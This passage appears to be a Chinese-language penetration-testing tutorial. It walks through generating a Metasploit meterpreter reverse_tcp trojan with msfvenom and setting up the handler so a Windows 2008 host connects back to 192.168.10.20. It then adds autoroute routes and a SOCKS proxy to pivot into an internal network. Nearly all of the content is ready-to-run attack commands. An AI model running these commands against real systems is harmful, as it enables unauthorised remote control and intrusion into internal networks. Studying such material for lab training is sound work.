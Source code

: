 ## Windows 2008上线

这里直接使用一个反向连接木马让`Windows 2008`进行上线。

```
生成木马：
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.10.20 LPORT= -f exe > 2008.exe
设置监听：
msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.10.20
set LPORT 1111
run
```

![image-20230518140815642](https://s2.loli.net/2023/05/18/HEosaukfzlYD1Q9.png)

### 判断内网

我们通过输入`ipconfig`获取到该主机还存在一个网卡信息，但是我们是无法通信的，所以需要借用`MSF`中的添加路由。

```
ipconfig
```

![image-20230518141218088](https://s2.loli.net/2023/05/18/akA8IpiXvmEB6rG.png)

### 添加路由

这里我们就需要查询一下路由，然后添加路由信息。

```
run autoroute -p
run post/multi/manage/autoroute
```

![image-20230518141501688](https://s2.loli.net/2023/05/18/5YhQPjETfoiBJV7.png)

### 查看路由信息

这里添加完后，只是`msf`的控制器享有通信，但是实际其它的工具以及操作，其实并没有通信权限，所以还是需要像`CS`一样建立节点。

![image-20230518141708164](https://s2.loli.net/2023/05/18/AecwzD4pm5WrZkq.png)

### 建立节点

这里主要就是添加一个节点，简单来说就是设置一个代理，在`MSF`中默认设置的`socks是5`版本的协议，不要搞错了，当然你可以使用 `show op`，`teb`键补其去修改协议版本。

```
use auxiliary/server/socks_proxy
set srvhost 0.0.0.0
set srvport 1122
run
```
